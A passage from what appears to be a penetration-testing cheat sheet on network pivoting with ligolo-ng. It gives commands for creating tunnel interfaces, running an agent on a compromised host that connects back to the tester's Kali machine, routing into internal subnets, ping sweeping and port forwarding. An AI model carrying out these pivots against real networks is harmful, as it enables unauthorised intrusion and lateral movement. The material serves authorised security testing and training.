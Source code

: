 ```powershell
PS C:\> runas /user:<hostname>\<user> cmd
```

### `ligolo-ng`

>   Sources: [1](https://readmedium.com/en/mastering-multi-pivot-strategies-unleashing-ligolo-ngs-power-double-triple-and-even-quadruple-dca6b24c404c), [2](https://www.stationx.net/how-to-use-ligolo-ng/), [3](https://jvsautomate.com/blog/Ligolo-ng-Multi-Pivot-My-Methods/)

##### Create TUN Interfaces

```bash
# Download the proxy and agent from https://github.com/nicocha30/ligolo-ng/releases/

# Create new tun interfaces
kali$ sudo ip tuntap add user <username> mode tun ligolo1
kali$ sudo ip link set ligolo1 up

kali$ sudo ip tuntap add user <username> mode tun ligolo2
kali$ sudo ip link set ligolo2 up

kali$ sudo ip tuntap add user <username> mode tun ligolo3
kali$ sudo ip link set ligolo3 up

# Confirm that your new interfaces are up
kali$ ip a

# Start the proxy on Kali machine
kali$ ligolo-proxy -selfcert
```

##### First Pivot (`Kali --> ligolo1`)

```bash
# Windows
ligolo1 cmd> ./agent.exe -connect <kali_ip>:11601 -ignore-cert

# Linux
ligolo1$ chmod +x agent && ./agent -connect <kali_ip>:11601 -ignore-cert

# Starting our Pivot
# Choose a session
ligolo-ng$ session
# Verify network instances on connected agent
ligolo1_agent$ ifconfig
ligolo1_agent$ start

# Add a new route (ligolo1 subnet) to our proxy
kali$ sudo ip route add 192.168.8.0/24 dev ligolo1
# Confirm that the route was added
kali$ ip route
# Try pinging the internal server now
kali$ ping 192.168.8.129

# Do a ping sweep to find ligolo2
kali$ for i in {1..254}; do (ping -c 1 192.168.8.$i) | grep "bytes from" &) ;done

# Forward traffic from port 8080 on ligolo1 to port 80 on our Kali
ligolo1_agent$ listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:80 --tcp
ligolo1_agent$ listener_list
```
